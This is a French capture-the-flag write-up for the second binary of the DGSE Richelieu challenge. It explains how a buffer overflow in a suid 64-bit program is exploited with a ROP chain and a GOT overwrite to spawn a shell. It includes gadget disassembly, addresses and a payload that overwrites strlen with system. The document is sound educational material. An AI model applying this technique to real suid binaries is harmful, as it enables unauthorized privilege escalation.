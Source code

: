 # Challenge Richelieu DGSE - Wargame #2

Le second binaire est le plus difficile à casser. Vous pouvez le récupérer [ici](./binaries/defi2.bin), si le cœur vous en dit. Il s'agit d'un programme en [suid](https://fr.wikipedia.org/wiki/Setuid#Setuid_et_Setgid_pour_les_ex%C3%A9cutables) comme le précédent.

Lançons le :
```
defi2@AttrapeLeDrapeau:~$ ./prog.bin
************************************************
** Vérification du couple login/mot de passe. **
************************************************
login $ monLogin
pass $ monPass
[-] mot de passe trop petit (moins de 8 caractères)
[-] il n'y a pas de nombre
[-] il n'y a pas de caractère spécial
Pas bon. Il vaudrait mieux utiliser un autre couple login/mot de passe
```
En déboguant le programme, on se rend compte que :
- Le login est lu par un `fgets(buff, 0x3e8, stdin)`. On a donc beaucoup de place pour mettre ce que l'on veut, *fgets* va s’arrêter de lire au moment où il va rencontrer un saut de ligne ou qu'il aura lu au maximum 0x3e8 (1000 en décimal) octets.
- Le mot de passe est lu par un `scanf("%s")`. C'est beaucoup plus contraignant : *scanf* va s’arrêter au moment où il lira un "\n" mais aussi un espace " ", un octet null "\x00", entre autres.
- Il y a un [buffer overflow](https://fr.wikipedia.org/wiki/D%C3%A9passement_de_tampon) lors du scanf (et du fgets aussi) : celui-ci ne vérifie pas la taille lue et ne tronque pas, tant qu'il considère que ce qu'il lit est une chaîne. L'overflow a lieu après le 56ème octet lu.
- L'[ASLR](https://fr.wikipedia.org/wiki/Address_space_layout_randomization) est activé et le programme est en 64bits. On va avoir du mal à dévier le flot d’exécution vers un éventuel shell code.

Un moyen de contourner l'*ASLR en 64 bits* est de réaliser une [Ropchain](https://en.wikipedia.org/wiki/Return-oriented_programming), les adresses du programme en lui même étant fixes, contrairement à celles de la libc, de la stack et de la heap.

La grande complexité de ce challenge tient à la difficulté à trouver des *gadgets intéressants*, notamment en ce qui concerne le contrôle du registre *rdi*. Il y a effectivement un `pop rdi; ret;` à l’adresse 0x400a13 mais il contient un saut de ligne dans son adresse : "0x0a". Il est donc inexploitable. J'en ai trouvé un autre, beaucoup moins évident :
```
0x4005e1:	pop    rdi                      # la partie intéressante
0x4005e2:	and    BYTE PTR [rax+0x0],ah    # il faut que rax contienne un pointeur
                                             # vers une zone mémoire accessible en écriture
                                             # pour ne pas faire planter le programme à cet endroit
0x4005e5:	push   rbp
0x4005e6:	sub    rax,0x602058
0x4005ec:	cmp    rax,0xe
0x4005f0:	mov    rbp,rsp
0x4005f3:	jbe    0x400610                 # si rax est inférieur ou égal à 0xe, on va à l'adresse 0x400610
0x4005f5:	mov    eax,0x0
0x4005fa:	test   rax,rax
0x4005fd:	je     0x400610                 # sinon on va aussi à l'addresse 0x400610
```

À l’adresse 0x400610 on trouve :
```
0x400610:	pop    rbp
0x400611:	ret
```

On peut estimer que ce gadget fait (si rax pointe vers une zone inscriptible):
```
pop rdi;
push rbp;
mov rbp,rsp;
pop rbp;
ret;
```

Le pop rbp et push rbp s'annulent...
On a donc :
```
pop rdi;
mov rbp,rsp;
ret;
```
Formidable ! Pour les autres gadgets, j'ai utilisé :
0x40086b : `pop rbp; ret`
0x400863: `mov    eax,DWORD PTR [rbp-0x14]; add rsp, 0x38; pop rbx; pop rbp; ret;`

J'ai codé [un script python](./scripts/defi2-exploit.py) qui exploite la faille.
- Il va d'abord leaker l’adresse de *puts* contenue dans la [GOT](https://en.wikipedia.org/wiki/Global_Offset_Table) : `puts(0x602018)`
- Ensuite il va retourner dans le programme  au moment du *fgets* en modifiant son premier argument : `fgets(0x602000, 0x3e8, stdin)`. Le script enverra alors `"/bin/sh"+"\x00"*24+p64(system)+"\n"`.  Cela va réécrire une partie de la GOT jusqu'à l'adresse de *strlen*.
- Le programme va continuer à s’exécuter et appeler strlen(buff). Or buff contient "/bin/sh" et l'adresse de strlen dans la GOT a été écrasée par celle de system. On obtient donc un shell.

Cette partie aurait aussi bien pu être réalisée en effectuant un [ret2csu](https://www.rootnetsec.com/ropemporium-ret2csu/) ou peut-être même encore un [ret2resolve](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62) pour contourner l'absence apparente de gadget `pop rdi`. Un simple ret2reg aurait pu aussir faire l'affaire, [comme l'a fait Alkeryn](https://github.com/Alkeryn/ctf_richelieu_dgse/blob/master/defi2/exploit.py)

Suite et fin dans la dernière partie : [Wargame #3](./Wargame3.md)
